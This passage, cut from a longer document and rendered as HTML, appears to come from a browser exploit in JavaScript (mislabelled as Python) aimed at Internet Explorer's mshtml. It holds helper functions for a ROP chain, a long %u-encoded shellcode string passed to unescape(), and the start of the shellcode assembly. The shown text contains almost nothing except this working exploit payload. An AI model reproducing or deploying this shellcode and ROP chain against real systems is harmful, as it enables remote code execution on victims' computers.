 <code class="python plain">uni;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">function tab2uni(heapobj, tab)</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var uni </code><code class="python keyword">=</code> <code class="python plain">""</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">for</code><code class="python plain">(var i</code><code class="python keyword">=</code><code class="python value">0</code><code class="python plain">;i&lt;tab.length;i</code><code class="python keyword">+</code><code class="python keyword">+</code><code class="python plain">){</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">uni </code><code class="python keyword">+</code><code class="python keyword">=</code> <code class="python plain">heapobj.d2u(tab[i]);</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python keyword">return</code> <code class="python plain">uni;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">}</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">heapobj.tab2uni </code><code class="python keyword">=</code> <code class="python plain">tab2uni;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">heapobj.d2u </code><code class="python keyword">=</code> <code class="python plain">d2u;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">heapobj.rop_chain </code><code class="python keyword">=</code> <code class="python plain">rop_chain;</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var code </code><code class="python keyword">=</code> <code class="python plain">unescape(</code><code class="python string">"%u40b0%u414b%u1d24%ub4a8%u7799%ube37%ua947%ud41a%u353f%ueb30%ud133%u2ae1%u31e0%ue2d3%u1514%ufd13%u3497%u7a7b%ufc39%u92ba%u9390%u0a4e%ubbf5%u8db2%ue385%uf823%ud53a%u0448%u750d%ud632%u707c%u4642%u7e78%ub12c%u2f98%u1c3c%u727e%u3b7b%u4fe0%ue38c%u4f76%u81b0%u2de2%u35ba%u86bb%u67f8%u8d0c%u9190%u7574%u7f71%u7d3c%u9f15%ub347%ud50b%u784e%u4970%u1b37%uc1ff%uc6fe%uc0c7%ub6d4%u9246%ub4b1%uf588%ua91d%u7c4b%u2548%u7a99%u9b3d%u01b7%u34eb%u1cb5%u38a8%ub8fc%ud609%ube4a%u9714%ue121%ub904%u42b2%u7796%u6924%u80f9%u0dfd%u412c%u2f05%u273f%ubf40%u9893%u7343%u6679%u77a8%ub63f%u7472%u707b%u843d%uebd2%uf630%ubfd5%u71b2%u757a%u1848%u0cf5%u96b7%uf889%u764a%u9b2d%u92b0%u66be%u7d97%ub425%u9114%u4904%uba34%u421c%ue308%uf902%u4140%u4773%u0d27%u93b5%u2299%u1dd4%u7c4f%u2867%u98fc%u2c24%ue212%ufd03%u78a9%u3505%u8390%u2fe0%u4337%u154b%u468d%u79b9%u297f%ubbd6%u197e%u4ee1%u9fb8%ub1b3%u4a3c%u7a7d%u7679%u4670%u2091%u74e1%ub043%u4e71%ub590%u75b7%u983c%u4bb3%ud687%uf86b%u9b40%u117f%ud1f7%u7bf9%u152f%u3427%u1d92%u3d97%u2d49%u720d%u014f%u7ce0%u3105%u10eb%u35f5%ub4b6%u1c2c%u93b2%u4704%ud52b%ubbb1%ue389%u4137%u7e78%u733f%u7742%u2925%ufcd0%u6624%u8dba%u67b9%u1a96%ua8fd%ua9be%ud40b%u4899%u9f14%u87bf%ue2f7%ub80c%u903d%u14b0%u25bb%u7d96%u1a7f%u79f5%uf809%u347c%u7b91%u4e47%ueb81%ue122%ud41b%u7074%ub21d%u2d72%u928d%ub3b1%ua905%u71b4%u4b0c%u9343%u0d76%u989f%u84b5%ub7d5%u4666%ube40%ub8bf%u201c%u48e2%u4a73%u6b2c%u2afc%u04e0%u4941%u3777%u10ba%u7ed6%u332f%ub9fd%u7a9b%u7875%u2415%u1299%uf9d2%u3f97%ub63c%u3567%u27a8%ue386%u7742%u4f73%ue380%ua93c%u757c%uf62b%ud0c0%u27e0%u214b%ue1d3%ub93f%u157d%u8c14%ue2c1%u9904%u7498%u7071%u6637%ueb28%u4e1c%u7fb6%u357b%u3297%u25d4%uf569%u9105%u4047%u0224%u78d6%u7941%uba3d%u49b1%u7276%u1d2f%u85bf%u67fc%u7e92%u4a2c%u7ab4%u1348%u93d5%u8d9b%u03bb%u74fd%u0879%u43e1%ue083%u1873%u46e3%u2372%ub2f8%u88b0%ub8f9%u969f%u75b5%u770c%u7b42%ub72d%u7aa8%ue219%ueb38%ub334%u90be%u4f7e%u0d7f%ub3b6%u3076%ubff5%u479f%u7167%ud40a%u3b7c%u66fc%u41b7%u9615%u3dfd%u3505%ub825%u1c7d%ub54a%u3940%u37d6%u3f92%u971d%u1478%u8d49%ua8b2%u3493%u2c3c%u902f%ud54f%u04a9%u1198%u91f8%ub99b%u9943%ubbb1%u0d70%u4824%u4b0c%ube4e%ub02d%uf93a%u27ba%ub446%udb42%ud9d1%u2474%u5af4%uc929%u49b1%u8cbe%uc04a%u31a0%u1972%uc283%u0304%u1572%ubf6e%u483c%u40e7%u89bd%uc997%ub858%uae85%ue929%ua419%u027c%ue8d2%u9194%u2496%u129a%u131c%ua395%u9b91%u6779%u67b0%ub480%u5912%uc94b%u9e53%u22b6%u7701%u91bc%ufcb5%u2980%ud2b4%u128e%u57ce%ue650%u5964%u5781%u11f3%ud339%u825b%u3038%ufeb8%u3d73%u740a%u9782%u7543%ud7b4%u480f%uda78%u8c4e%u05bf%ue625%ub8c3%u3d3d%u66b9%ua0c8%uec19%u016a%u219b%uc2ec%u8e97%u8c7b%u11bb%ua6a8%u9ac0%u694f%ud841%uad6b%uba09%uf412%u6df7%ue62b%ud150%u6c89%u0672%u2eab%ueb1b%ud081%u63db%ua392%u2ce9%u2c08%ua442%uab96%u9fa5%u236e%u2058%u6d8e%u749f%u05de%uf536%ud5b5%u20b7%u8619%u9b17%u76d9%u4bd8%u9cb1%ub4d7%u9ea1%udd3d%u644b%u22d6%u6723%ucb43%u6831%u579a%u8ebc%u77f6%u19e8%ue16f%ud2b1%uee0e%u9f6c%u6411%u5f82%u8ddf%u73ef%u7d88%u2eba%u811f%u4411%u17a0%ucf9d%u8ff7%u369f%u103f%u1d60%u994b%udef4%ue624%udf18%ub0b4%udf72%u64dc%u8c26%u6af9%ua0f3%uff51%u90fb%ua806%u1e93%u9e70%ue03c%u1e57%u3701%ua49e%u3d73%u64f2"</code><code class="python plain">);</code>&nbsp;<code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var rop_chain </code><code class="python keyword">=</code> <code class="python plain">heapobj.tab2uni(heapobj, heapobj.rop_chain(mshtmlbase)) ;</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">var shellcode </code><code class="python keyword">=</code> <code class="python plain">rop_chain